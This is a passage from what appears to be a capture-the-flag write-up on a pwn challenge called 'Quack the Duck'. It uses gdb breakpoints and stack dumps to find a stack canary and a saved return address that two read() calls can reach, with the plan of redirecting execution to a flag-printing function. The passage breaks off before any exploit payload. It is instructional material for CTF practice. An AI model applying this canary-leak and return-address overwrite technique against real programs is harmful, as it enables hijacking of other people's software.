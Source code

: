 But most importantly, can we reach the `duck_attack()` and get the flag printed with the current flow?

# Runtime Debugging

## First read()

Since we know it is trying to find the substring "Quack Quack " let's enter that with 4 A's for easy identification in registry, and we will insert breakpoint just before `strstr()` at `0x00401578` to confirm our input.

```as
(gdb) b *0x401567
Breakpoint 1 at 0x401567
(gdb) r
Quack the Duck!
> AAAAQuack Quack
Breakpoint 1, 0x0000000000401567 in duckling ()
(gdb) x /2gx $rsi
0x7fffffffdc10: 0x6361755141414141      0x206b63617551206b
```

Nice! We can see our 16 bytes in the `rsi` register. But don't forget we can fill 102 bytes and not just 32, and when the substring is found, it print the value present 32 bytes after `pcVar1` due to `printf("Quack Quack %s ...", pcVar1 + 0x20)`. So what exists in the memory from till 134 bytes from `rsi`?

```as
(gdb) x /20gx $rsi
0x7fffffffdb50: 0x6361755141414141      0x206b63617551206b
0x7fffffffdb60: 0x000000000000000a      0x0000000000000000
0x7fffffffdb70: 0x0000000000000000      0x0000000000000000
0x7fffffffdb80: 0x0000000000000000      0x0000000000000000
0x7fffffffdb90: 0x0000000000000000      0x0000000000000000
0x7fffffffdba0: 0x0000000000000000      0x0000000000000000
0x7fffffffdbb0: 0x0000000000000000      0x0000000000000000
0x7fffffffdbc0: 0x0000000000000000      0xb81ee3015c855d00
0x7fffffffdbd0: 0x00007fffffffdbf0      0x000000000040162a
0x7fffffffdbe0: 0x0000000000000000      0xb81ee3015c855d00
```

The value at `0xdbc8` seems like the canary value (`0xb81ee3015c855d00`), and we can reach it due to it being present at 121st byte. What's more is that the address present at `0xdbd8` is the return address to `main()` function. So maybe we can overwrite canary and change the return address to the `duck_attack()` function? At the moment we can only access the canary and not the return address. But we have the second `read()` function as well right?

## Second read()

Adding a second breakpoint at `0x4015df` right after the second `read()` function, and checking the memory again, we see that this time our input sits even closer to the canary and the return value.

```as
(gdb) b *0x4015df
Breakpoint 2 at 0x4015df
(gdb) c
Continuing.
Quack Quack , ready to fight the Duck?

> AAAAAAAAAAAAAAAA

Breakpoint 2, 0x00000000004015df in duckling ()
gef➤  x /20gx $rsi
0x7fffffffdb70: 0x4141414141414141      0x4141414141414141
0x7fffffffdb80: 0x000000000000000a      0x0000000000000000
```
